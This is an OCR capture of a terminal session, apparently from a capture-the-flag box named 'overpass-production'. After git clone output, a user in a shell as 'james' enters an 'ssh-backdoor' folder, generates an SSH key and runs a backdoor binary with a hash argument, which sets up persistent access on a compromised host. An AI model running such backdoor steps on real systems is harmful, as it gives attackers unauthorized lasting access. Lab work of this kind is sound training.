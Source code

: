 ```
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

```